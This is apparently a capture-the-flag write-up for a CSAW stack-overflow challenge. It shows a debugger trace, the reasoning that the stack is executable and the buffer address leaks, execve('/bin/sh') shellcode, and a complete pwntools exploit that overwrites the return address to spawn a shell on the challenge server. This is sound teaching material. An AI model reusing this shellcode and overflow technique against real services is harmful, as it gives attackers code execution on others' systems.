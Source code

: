 ```r
*RIP  0x400ae0 (main+314) ◂— call   0x400820
[────────────────────────────────────────────────────────────────────DISASM────────────────────────────────────────────────────────────────────]
 ► 0x400ae0 <main+314>    call   read@plt                      <0x400820>
        fd: 0x0
        buf: 0x7fffffffe0a0 —▸ 0x400b90 ◂— push   r15
        nbytes: 0x40
```

As you can see, the address of the input buffer is identical to the address printed in the output of the binary. Since the stack is executable, we only need to put shellcode onto the buffer and overwrite the return address with the address of the input buffer. I slightly modified the shellcode to extend the stack for the actual execution of the shellcode.

```r
   0:   48 83 ec 48             sub    rsp,0x48
   4:   48 31 d2                xor    rdx,rdx
   7:   48 bb ff 2f 62 69 6e    movabs rbx,0x68732f6e69622fff
   e:   2f 73 68 
  11:   48 c1 eb 08             shr    rbx,0x8
  15:   53                      push   rbx
  16:   48 89 e7                mov    rdi,rsp
  19:   48 31 c0                xor    rax,rax
  1c:   50                      push   rax
  1d:   57                      push   rdi
  1e:   48 89 e6                mov    rsi,rsp
  21:   b0 3b                   mov    al,0x3b
  23:   0f 05                   syscall
```

```python
from pwn import *

context.arch = 'amd64'

s = remote('pwn.chal.csaw.io', 8464)

raw_input('Exploit?')
shellcode = "\x48\x83\xEC\x48\x48\x31\xD2\x48\xBB\xFF\x2F\x62\x69\x6E\x2F\x73\x68\x48\xC1\xEB\x08\x53\x48\x89\xE7\x48\x31\xC0\x50\x57\x48\x89\xE6\xB0\x3B\x0F\x05"

s.recvuntil('[*]Location:')
leak_buffer = s.recvuntil('\n').strip()
print leak_buffer
leak_buffer = int(leak_buffer, 16)
s.recvuntil('[*]Command:')

print 'Shellcode is at:', hex(leak_buffer)

payload = ''
payload += shellcode
payload += '\x90' * (40 - len(shellcode))
payload += p64(leak_buffer)
s.sendline(payload)
s.interactive()
s.close()
```
